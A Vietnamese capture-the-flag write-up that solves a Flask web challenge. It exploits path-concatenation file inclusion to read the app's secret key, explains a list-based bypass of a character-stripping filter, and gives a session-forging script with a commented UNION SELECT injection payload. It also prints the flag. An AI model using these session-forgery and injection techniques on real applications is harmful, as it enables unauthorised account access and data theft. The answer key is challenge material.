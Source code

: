 # Phân tích

Server bị lỗi LFI ở đoạn code sau:

```py
@app.route('/read_note', methods=['GET'])
def read_note():
	filename = request.args.get('filename')
	f = open("notes/" + filename, 'r')
	content = f.read()
	f.close()
```

Nhờ đó ta có thể đọc được SECRET_KEY
`SECRET_KEY='oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy'`

Có được `SECRET_KEY` bước tiếp theo là sqli để lấy  `secret_key` lưu trong table `users`

Hàm waf_filter làm cho việc thực hiện sqli rất khó khăn
```py
def waf_filter(s): 
    forbids = ["'", '"', '*', '\\', '/', '#', ';', '--'] 
    for c in forbids: 
        if c in s: 
            s = s.replace(c, '') 
    return s
```
Nhưng nếu `s` này là list thì có thể bypass dễ dàng

# Solution

```py
from flask import Flask, request, session

app = Flask(__name__)
app.secret_key = "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy"

@app.route('/', methods=['GET'])
def index():
    #session['username'] = [f" union select 1, 2, 3, secret_key from users-- -"]     # dùng để lấy secret_key
    session['username'] = "admin"
    session['secret_key'] = "a7c12766bab05dd16fba6d6d3aee3d23"
    return "blabla"

if __name__ == '__main__':
	# debug=True: server will be auto-reloaded when you modify source code
	app.run(host="0.0.0.0", port=8888, debug=True)
```

Flag
**HCMUS-CTF{Pyth0n___\`in\`_k3yw0rddd_+++_n0t__0nLY___work__4_str__buT_4ls0_dict}**